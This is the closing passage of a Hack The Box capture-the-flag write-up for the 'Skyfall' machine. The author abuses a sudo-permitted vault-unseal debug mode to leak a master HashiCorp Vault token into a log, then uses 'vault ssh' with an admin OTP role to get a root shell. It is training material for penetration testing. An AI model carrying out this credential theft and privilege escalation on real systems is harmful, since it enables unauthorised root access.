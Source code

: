 Then, move to the folder, and run debug on the command again.

```bash
askyy@skyfall:~$ cd sym/
askyy@skyfall:~/sym$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~/sym$ cat test.123
2024/02/04 06:35:58 Initializing logger...
2024/02/04 06:35:58 Reading: /etc/vault-unseal.yaml
2024/02/04 06:35:58 Security Risk!
2024/02/04 06:35:58 Master token found in config: [removed]
...

```

The token looks just like our other HashiCorp Vault token.

Dropping out of the user shell, I set my `VAULT_KEY` to the master key, and then use the ssh command again. Assuming we can just use the other OTP role we identified above, we ssh into root.

```bash
export VAULT_TOKEN=[Master Token]
vault ssh -role=admin_otp_key_role root@skyfall.htb 
```

And we get root! 
```bash
root@skyfall:~# whoami
root
root@skyfall:~# id
uid=0(root) gid=0(root) groups=0(root)
```
# 🥳
https://www.hackthebox.com/achievement/machine/158887/586